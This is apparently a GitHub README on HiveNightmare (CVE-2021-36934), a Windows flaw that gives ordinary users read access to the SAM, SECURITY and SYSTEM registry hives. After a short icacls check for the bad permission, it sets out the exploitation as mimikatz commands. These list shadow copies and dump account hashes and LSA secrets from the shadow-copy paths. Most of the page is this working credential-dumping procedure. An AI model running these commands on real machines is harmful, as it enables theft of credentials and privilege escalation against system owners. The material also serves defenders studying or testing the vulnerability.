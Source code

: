 # HiveNightmare

#### CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user.

## Exploitation

Check for the vulnerability using icacls

```
C:\Windows\System32> icacls config\SAM
```

```
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!                    
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```
mimikatz> token::whoami /full
```

#### List shadow copies available

```
mimikatz> misc::shadowcopies
```

#### Extract account from SAM databases

```
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

#### Extract secrets from SECURITY

```
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
